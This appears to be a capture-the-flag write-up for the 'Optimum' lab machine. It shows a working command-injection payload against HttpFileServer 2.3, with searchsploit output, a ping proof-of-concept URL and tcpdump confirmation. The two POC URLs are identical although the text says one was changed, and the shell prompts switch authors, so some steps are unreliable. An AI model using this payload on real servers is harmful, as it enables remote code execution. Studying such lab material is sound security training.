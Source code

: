 - The bottom of the page gives the exact version of HFS running, 2.3.

## Exploitation

- using searchsploit found we have an RCE on to the same version.

```
┌──(kali㉿kali)-[~/Desktop/Optimum]
└─$ searchsploit HttpFileServer 2.3 
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)                                                                 | windows/webapps/49125.py
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- downloaded the payload from `https://www.exploit-db.com/exploits/49125`.
- the payload does nothing but has a command execution vulernability in parameter `search` of homepage, where we can in incude command using exec function like this: `/?search=%00{{.+exec|<COMMAND>.}}'`

### POC

As a proof of concept, I crafted this URL to try to ping myself:

```
http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.10.}
```

If it works, I should see a single ICMP packet at my host. I started `tcpdump` and submitted, and nothing.

Often, this can be an issue with the system not finding the path to `ping` in this current environment. So I tried adding `cmd /c` before the command:

```
http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.10.}
```

It worked (interestingly four times):

```
oxdf@parrot$ sudo tcpdump -i tun0 icmp and src 10.10.10.8
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:16:51.416240 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 117, length 40
16:16:51.416294 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 118, length 40
16:16:51.416309 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 119, length 40
16:16:51.418739 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 120, length 40
```

